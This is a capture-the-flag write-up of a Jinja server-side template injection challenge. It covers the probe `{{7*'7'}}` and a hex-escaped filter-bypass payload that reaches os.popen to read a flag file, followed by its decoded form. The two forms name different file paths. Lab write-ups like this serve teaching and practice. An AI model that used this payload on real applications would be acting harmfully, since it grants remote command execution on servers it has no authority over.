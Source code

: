 # Beyond Borders

> Web - Medium

**Description**: Explore the travel blog and create your perfect travel plan. Feel free to share yours if you've got one!

![image](./images/beyondborders0.png)

![image](./images/beyondborders1.png)

The name is being printed back, this can be a hint to injection

payload `{{7*'7'}}` gives `7777777` -> SSTI with Jinja template \
several tries of payload indicated that the input is heavily sanitized

VERY Helpful [blog](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)

This payload worked:

```php
{{request|attr('\x61\x70\x70\x6c\x69\x63\x61\x74\x69\x6f\x6e')|attr('\x5f\x5f\x67\x6c\x6f\x62\x61\x6c\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x62\x75\x69\x6c\x74\x69\x6e\x73\x5f\x5f')|attr('\x5f\x5f\x67\x65\x74\x69\x74\x65\x6d\x5f\x5f')('\x5f\x5f\x69\x6d\x70\x6f\x72\x74\x5f\x5f')('os')|attr('\x70\x6f\x70\x65\x6e')('cat flag.txt')|attr('read')()}}
```

which translates to:

```php
{{ request.application.__globals__.__builtins__.__import__('os').popen('cat /challenge/flag').read() }}
```
